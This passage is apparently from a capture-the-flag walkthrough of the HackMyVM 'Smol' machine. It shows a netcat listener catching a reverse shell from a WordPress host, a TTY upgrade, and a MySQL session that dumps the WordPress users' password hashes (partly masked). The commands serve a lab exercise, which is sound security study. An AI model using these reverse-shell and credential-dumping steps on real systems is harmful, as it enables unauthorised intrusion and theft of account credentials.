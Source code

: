 ![](/assets/img/posts/walthrough/hackmyvm/2024-10-27-smol/shell-2.png)

When we return to our listener, we will notice a reverse connection from the target.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.38] 41594
bash: cannot set terminal process group (794): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smol:/var/www/wordpress/wp-admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<min$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@smol:/var/www/wordpress/wp-admin$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
www-data@smol:/var/www/wordpress/wp-admin$ 
```

Remember that we obtained the database credentials of the WordPress instance so let's enumerate the password hashes of all the users in this instance.
```bash
www-data@smol:/$ mysql -u wpuser -p
Enter password:              
Welcome to the MySQL monitor.  Commands end with ; or \g.
<SNIP>                   

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;       
+--------------------+       
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+                                                                        
5 rows in set (0.00 sec)
mysql> use wordpress
Reading table information for completion of table and column names                            
You can turn off this feature to get a quicker startup with -A   
mysql> SELECT user_login,user_pass FROM wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$B5TxxxxxxxxxxxxxxxxxxxqsQACvOJ0 |
| wpuser     | $P$BfZxxxxxxxxxxxxxxxxxxxBVh2Z1/E. |
| think      | $P$B0jxxxxxxxxxxxxxxxxxxxVi2pb7Vd/ |
| gege       | $P$BsIxxxxxxxxxxxxxxxxxxxM4FwiG0m1 |
| diego      | $P$BWFxxxxxxxxxxxxxxxxxxxrff4JPwv1 |
| xavi       | $P$Bvxxxxxxxxxxxxxxxxxxxx40mqJZCN/ |
+------------+------------------------------------+
6 rows in set (0.00 sec)
```